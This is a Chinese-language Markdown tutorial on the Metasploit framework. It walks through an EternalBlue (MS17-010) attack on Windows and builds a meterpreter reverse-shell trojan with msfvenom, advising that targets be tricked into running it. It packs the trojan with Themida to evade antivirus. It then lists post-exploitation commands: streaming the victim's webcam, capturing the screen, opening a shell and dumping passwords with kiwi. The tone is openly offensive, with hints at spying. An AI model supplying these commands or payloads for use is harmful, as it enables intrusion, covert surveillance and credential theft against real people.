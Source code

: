 # Metasploit 渗透工具

https://www.metasploit.com/

> 简称MSF

kali中打开终端 & 输入 `msfconsole`

![](./images/02-Metasploit-1706774645060.png)

msf使用法则：`使用模块` -> `配置模块必选项` -> `运行模块`

### eg: metasploit 攻击 windows 操作系统

metasploit通过永恒之蓝病毒漏洞攻击流程

```shell
msfconsole

# 搜索漏洞，微软安全公告：https://learn.microsoft.com/zh-cn/security-updates/securitybulletins/2017/ms17-010
search ms17

# 使用模块
use exploit/windows/smb/ms17_010_eternalblue

# 查看必选项 （required为yes的）
show options

# 设置必选项 
# RHOSTS：攻击谁
set RHOSTS 172.16.20.xx
# LPORT：在kali上开启的端口（1-65535），注意不要被占用
set LPORT 10001

# 运行模块，完成攻击
run
```

### msfvenom生成远程木马控制电脑

如果系统没有漏洞呢，可以生成木马文件，诱导对方执行

```shell
# 1、生成远控木马   msfvenom -p [payload] LHOST=[IP地址] LPORT=[端口号] -f [格式] -o [文件名]
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.137.194 LPORT=10000 -f exe -o demo.exe

# 2、主控端 -- 开启监听
msfconsole
use exploit/multi/handler
show options
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 192.168.137.194
set LPORT 10000
# 等待目标靶机上线
run

# 3、等待目标靶机触发上面生成的木马文件 demo.exe
```

#### 加壳免杀

msfvenom生成的远控木马会被一些安全管家软件查杀，可以通过加壳免杀 

下载`Themida` https://www.oreans.com/download.php
直接将文件拖进去即可...
![](./images/02-Metasploit-1706780924800.png)
![](./images/02-Metasploit-1706780945530.png)

然后会生成`demo_protected.exe`，这个文件便可免杀

---

运行.exe木马文件后，便可监听到上线的鱼儿
![](./images/02-Metasploit-1706781104773.png)

然后就可以控制目标靶机进行一系列操作了... 你懂的....

```shell
# 看看能干些啥事情
help

# 看看对方有没有摄像头
webcam_list
# 如果有的话，可以打开摄像头
webcam_stream

# 截屏
screenshare

# 执行各种命令
shell

# kiwi抓取密码 -- 我这里测试失败
load kiwi
kiwi_cmd sekurlsa::logonpasswords
```

![](./images/02-Metasploit-1706781339305.png)
